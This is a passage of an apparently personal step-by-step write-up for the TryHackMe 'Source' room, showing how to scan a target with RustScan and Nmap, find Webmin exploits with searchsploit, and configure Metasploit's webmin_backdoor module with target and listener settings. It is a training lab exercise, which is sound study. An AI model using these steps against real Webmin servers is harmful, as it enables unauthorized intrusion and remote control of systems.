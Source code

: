 # ♦ Day 09
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [SOURCE](https://tryhackme.com/r/room/source) : 
   ⇨ Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool. 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. First we have to connect it to the TRYHACKME platform for that we have to go to the ***Acess*** in profile and then Download the open vpn file in ***.ovpn*** format.


### • 2. Connect to the Vpn using ***sudo openvpn >file that u downloaded<.ovpn***.

### • 3. Open a Different terminal 'Remember not to close the vpn file till the work is done' and scan the Ip that was generated by THM while starting the   machine and try saving the report by using ***RUSTSCAN***. </br>

  #### ***⇨*** { ***NOTE: Rustscan is much more efficient when we have to scan all the port in a fast manner,rustscan is upgraded version of nmap but it dont give all the dtails of open ports so we acn again use nap to scan open ports after we get the open ports from using rustscan*** }. </br>


## ◙ Difference between Nmap and RustScan.


|    Feature    |                    Nmap                   |               RustScan              |
| ------------- | ----------------------------------------- | ----------------------------------- |
|     Speed     | Slower due to comprehensive scanning      | Very fast, designed for quick scans |
|  Flexibility  | Highly flexible with many options         | Less flexible, focuses on speed     |
|  Programming  | Written in C                              | Written in Rust                     |
|     Usage     | Widely used for detailed network analysis | Best for quick port scanning        |
|  Installation | Available on most systems                 | Requires installation of Rust       | </br>



### • 4. Now Download the rustscan from its orignal website that is in github and here is the [LINK](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan-2.2.3-x86_64-linux.tar.xz). Then extract and install and u r ready to use it.

### • 5. Now let's set the room ip in ***/etc/hosts*** so we don't have to type ip everytime. 
    sudo nano /etc/hosts

### • 6. Scan for the open ports in the ip by rustscan and save it as rustscan-sv-sc-source.txt
     sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

as we can see it dont give us full details On the Open Ports so we will again use Nmap to scan the open ports we got from the rustscan.

### • 7. Now we will use the Nmap to scan all the known open ports.
    sudo nmap -p(port no.) -sV source.com

### • 8. As we obtainesd ports details from the upper scan now we will search for the spoloits feom search ***searchsploits*** Command so we got that its is a webmin fro mm yupper scan so we will do:
    seachsploit webmin


### • 9. And as it contains "Metasploit" as one of the sploits available so we will use ***msfconsole***.
    msfconsole

### • 10. And now we will search for the sploits for webmin in msfconsole.
    search webmin

### • 11. We hav eto select ***exploit/linux/http/webmin_backdoor*** whichever number it is in.

### • 12. Now we gotta see what informations are required to be filed to usee this sploit for tht we wioll use:
    show options 

### • 13. Now fill all the reuired infos
    set RHOSTS >the ip that was given by the room<

    set LHOST >the ip of ur vpn/tun0<

    set LPORT >the port u wanna use for this operation(tht port should be free/not alredy in use)<
